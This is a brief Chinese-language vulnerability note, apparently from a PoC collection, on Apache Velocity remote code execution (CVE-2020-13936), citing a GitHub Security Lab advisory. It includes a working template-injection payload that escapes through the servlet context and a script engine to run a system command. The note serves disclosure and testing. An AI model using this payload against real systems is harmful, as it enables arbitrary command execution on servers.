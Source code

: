 # Apache Velocity 远程代码执行 (CVE-2020-13936)

Velocity Uberspector无法阻止访问java.lang.ClassLoader类加载器方法。在VelocityView的上下文中使用Velocity模板时，能够修改模版的攻击者可以使用与运行Servlet容器的帐户相同的权限执行任意Java代码或运行任意系统命令。

详细分析：https://securitylab.github.com/advisories/GHSL-2020-048-apache-velocity

测试版本：

Apache Velocity 2.2

**PoC：**

```
${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager').newInstance('javax.script.ScriptEngineManager').getEngineByName('js').eval("java.lang.Runtime.getRuntime().exec('touch /tmp/pwned')")}
```

from：https://securitylab.github.com/advisories/GHSL-2020-048-apache-velocity